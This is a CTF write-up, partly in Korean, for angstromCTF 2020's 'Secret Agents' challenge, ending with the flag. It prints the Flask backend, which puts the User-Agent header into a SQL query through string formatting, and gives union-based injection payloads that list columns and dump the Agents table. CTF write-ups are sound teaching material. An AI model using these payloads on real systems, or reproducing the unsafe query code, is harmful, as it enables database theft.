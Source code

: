 ```yaml
---
title: "Angstromctf2020 - Secret Agents"
header:
  teaser: ""
categories:
  - CTF
tags:
  - Angstromctf2020
  - CTF
toc: true
---
```


# Secret Agents
---
![](../assets/img/Pasted%20image%2020240330203219.png)

![](../assets/img/Pasted%20image%2020240330203225.png)

```python
from flask import Flask, render_template, request
#from flask_limiter import Limiter
#from flask_limiter.util import get_remote_address

from .secret import host, user, passwd, dbname

import mysql.connector


dbconfig = {
	"host":host,
	"user":user,
	"passwd":passwd,
	"database":dbname
}

app = Flask(__name__)
"""
limiter = Limiter(
	app,
	key_func=get_remote_address,
	default_limits=["1 per second"],
)"""


#@limiter.exempt
@app.route("/")
def index():
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(
					**dbconfig
					)

	cursor = conn.cursor()

	#cursor.execute("SET GLOBAL connect_timeout=1")
	#cursor.execute("SET GLOVAL wait_timeout=1")	
	#cursor.execute("SET GLOBAL interactive_timeout=1")

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			break

	cursor.close()
	conn.close()

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

백엔드 소스코드가 제공된다.  
User-Agents를 이용한 SQLI 문제이다.
![](../assets/img/Pasted%20image%2020240330203337.png)

아래의 SQL문으로 보내면 

```sql
User-Agent: 'union select group_concat(column_name),2 from information_schema.columns where table_name="Agents"#
```


![](../assets/img/Pasted%20image%2020240330203326.png)


Name과 UA라는 컬럼명을 가지고 있다는것을 알 수 있다.

```sql
User-Agent: 'union select group_concat(Name),2 from Agents#
```  
![](../assets/img/Pasted%20image%2020240330203355.png)

```text
actf{nyoom_1_4m_sp33d}
```
